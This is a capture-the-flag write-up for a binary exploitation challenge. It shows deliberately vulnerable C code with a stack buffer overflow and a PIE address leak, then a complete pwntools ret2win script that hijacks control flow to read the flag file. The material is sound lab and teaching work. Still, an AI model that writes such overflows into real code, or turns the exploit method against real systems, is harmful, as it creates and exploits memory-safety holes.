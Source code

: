 # CIRS

First, lets start off with the code given to us first

```c
#include <stdio.h>
#include <stdlib.h>

// Compiled using gcc -o cirs -g -fno-stack-protector -Wno-stringop-overflow cirs.c

unsigned long report_number = 0;

void setup() //nothing interesting here
{
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
}

void file_report()
{
    char input[28]; //character array variable of size 28
    printf("Please input your student ID: ");
    fgets(input, 28, stdin); //written to input variable
    printf("Please describe the incident: ");
    fgets(input, 256, stdin); //written to input variable
    printf("The matter has been recorded and will be investigated. Thank you.\n");
}

//in a ret2win scenario, this is your win function
void admin()
{
    // how did you even get here?
    FILE *fptr = fopen("flag.txt", "r");
    if (fptr == NULL)
    {
        printf("Cannot open flag\n");
        exit(0);
    }
    char c;
    while ((c = fgetc(fptr)) != EOF)
    {
        printf("%c", c);
    }
    fclose(fptr);
}

int main()
{
    setup();
    srand(0xa2cdde); // seeds the rand() function with the seed 
    report_number = rand(); //random report number
    printf("Welcome to the Cyber Incident Reporting System (CIRS)\n");
    printf("Case number: #%lu\n", &report_number);
    file_report();
    return 0;
}
```

## Running CheckSec
```
└─# checksec cars
[*] '/mnt/f/blahajCTF/pwn/cars'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

From this, we can see that NX is enabled and PIE is enabled
PIE stands for Position Independent Executable, which means that everytime the binary is ran, it gets loaded into a different memory address.  
In a binary with PIE, things like function addresses are saved as an offset, and when the program is run, a randomnised base address will be generated and the function location during runtime would be equal to `base address + offset`

## Find the Base Address

Since the C file is given, you can recompile it without PIE using `gcc -o cirs_patched -g -no-pie -fno-stack-protector -Wno-stringop-overflow cirs.c`
```
└─$ ./cirs_patched
Welcome to the Cyber Incident Reporting System (CIRS)
Case number: #4210832
Please input your student ID:
```

Thus we have a static value case number, which is `0x404090` in hex
this is where we can set `binary.address = (PIERand - 0x404090)`

If we assume the PIE base to be used in the function like
```py
PIERand = int(reportNumber.strip().decode("utf-8"))
print(hex(PIERand)) 

binary.address = (PIERand - 0x404090)
log.success(f'PIE base: {hex(binary.address)}')
```

Which we will obtain as `PIE base: 0x55d758e4a000`  

By disassembling the admin function  
![image-1.png](image-1.png)  
We can see a whole lot of addresses here, but the important ones are used below  

![image.png](image.png)  
There is a difference of 0x400000 between the actual base address and the calculated one

Thus, when writing our script, our binary address will be
`binary.address = (PIERand + 0x400000 - 0x404090)`

Thus the final script will be
```py
from pwn import *

context.binary = binary = ELF("./cirs")
p = process()
#p = remote("0.0.0.0", 10000)

# Get the report number from the output
p.recvuntil("Case number: #")
reportNumber = p.recvuntil("\n")
PIERand = int(reportNumber.strip().decode("utf-8"))
print(hex(PIERand))

# Update our base address
binary.address = (PIERand + 0x400000 - 0x404090)
log.success(f'PIE base: {hex(binary.address)}')

# Write our payload
hidden_function = p64(binary.symbols.admin)
p.recvuntil(b"student ID:")
p.sendline(b"aaa")
p.recvuntil(b"incident:")
payload = b"A" * (40) + hidden_function

p.sendline(payload)
p.interactive()

```

which should output the flag, `YCEP25{I_L0ve_eat1ng_i_m3an_ropp1ng_PIE}`
